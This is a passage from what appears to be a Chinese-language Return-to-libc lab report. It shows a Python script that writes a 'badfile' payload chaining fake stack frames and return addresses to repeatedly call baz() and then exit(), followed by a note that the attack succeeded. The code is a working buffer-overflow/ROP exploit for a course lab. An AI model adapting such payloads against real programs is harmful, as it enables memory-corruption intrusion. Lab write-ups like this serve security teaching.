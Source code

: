       def tobytes(value):
        return (value).to_bytes(4,byteorder="little")
      
      
      baz_skip_addr = 0x56556315 + 7    # The address of baz(skip)
      exit_addr = 0xf7e04f80  # The address of exit()
      ebp_foo = 0xffffc968  # foo()'s frame pointer
      
      
      
      # Fill content with non-zero values
      content = bytearray(0xaa for i in range(112))
      
      ebp_next = ebp_foo
      
      for i in range(10):
        ebp_next += 0x20
        content += tobytes(ebp_next)
        content += tobytes(baz_skip_addr)
        content += tobytes(0xAABBCCDD)
        content += b'A'*(0x20-3*4)
       
      # exit()
      content += tobytes(0xFFFFFFFF) # The value is not important.
      content += tobytes(exit_addr)  # Return address
      content += tobytes(0xEEBBCCDD)
      
      # Save content to a file
      with open("badfile", "wb") as f:
        f.write(content)
      ```
   
      结果成功执行baz函数
   
      ![ROP_2_results](/img/posts/2023-11-20-Return_to_Libc实验报告/images/ROP_2_results.png)
   